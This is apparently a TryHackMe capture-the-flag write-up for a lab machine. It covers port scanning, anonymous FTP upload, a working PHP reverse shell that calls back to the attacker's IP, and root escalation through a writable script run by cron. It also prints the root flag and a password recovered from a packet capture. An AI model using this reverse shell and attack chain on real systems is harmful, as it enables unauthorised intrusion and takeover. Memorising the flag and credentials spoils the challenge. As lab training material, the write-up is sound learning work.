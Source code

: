 1) Initial Recon

I started with a full port scan using Nmap:

nmap -sCV -p- -T4 -oA nmap_initial 10.201.102.67

The scan revealed three open ports:

21/tcp FTP (anonymous login allowed, writable directory)

22/tcp SSH

80/tcp HTTP (Apache)

2) Web Directory Enumeration

I ran Gobuster to discover hidden directories:

gobuster dir -u http://10.201.102.67 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50 -o gobuster_spicy.txt

The scan revealed /files which mirrored the FTP directory.

3) FTP Access and File Upload

Using anonymous credentials, I logged into FTP:

ftp 10.201.102.67
# Username: anonymous
# Password: anonymous
cd ftp

I verified that the directory was writable and uploaded a PHP reverse shell:

cat > shell.php <<'EOF'
<?php
set_time_limit(0);
$ip = '10.201.87.82';
$port = 5555;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0=>$sock,1=>$sock,2=>$sock), $pipes);
?>
EOF


curl -T shell.php ftp://10.201.102.67/ftp/ --user anonymous:anonymous -v
4) Getting a Reverse Shell

I set up a Netcat listener on my Kali machine:

nc -lnvp 5555

Then, I triggered the shell via the browser:

curl http://10.201.102.67/files/ftp/shell.php -v

Once connected, I stabilized the shell:

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color

I confirmed my session:

whoami        # www-data
id             # uid=33(www-data)
pwd            # /var/www/html/files/ftp
hostname       # startup
uname -a       # Linux startup 4.4.0-190-generic x86_64
ls -la         # shows shell.php and permissions
5) Exploring the FTP Directory

I found two files:

notice.txt (irrelevant content)

important.jpg (contains embedded data, but no further action needed for this session)

The main goal here was to verify write access and confirm remote command execution.

6) Privilege Escalation (Root Access)

From the reverse shell as www-data, I enumerated directories and permissions. I identified that a root-owned script (planner.sh) executes print.sh, which I could modify.

I inserted a root reverse shell payload into print.sh and waited for planner.sh to execute it automatically (scheduled by cron). I had a second Netcat listener ready:

nc -lnvp 5555

Within a minute, I got a root shell:

whoami        # root
cat /root/root.txt
# Output: THM{f963aaa6a430f210222158ae15c3d76d}
7) Analyzing Credentials from Network Capture

I also found a suspicious packet capture in the directories. I analyzed it locally using tshark and strings to extract credentials:

strings suspicious.pcapng | egrep -i "user|login|username|password|pass|lennie" -n

This revealed:

Username: lennie
Password: c4ntg3t3n0ughsp1c3

These credentials were later used to SSH into the target.

Conclusion

Through FTP upload and web exploitation, I gained initial access as www-data, then escalated to root by abusing a root-owned script. I successfully retrieved both the user and root flags, completing the challenge. This project reinforced practical skills in:

Nmap enumeration

Directory enumeration (Gobuster)

FTP exploitation and file uploads

Reverse shell creation and stabilization

Privilege escalation via script manipulation

Extracting credentials from network captures (tshark/strings)

All steps were performed hands-on by me, and the project demonstrates a full end-to-end penetration test workflow on a Linux VM.
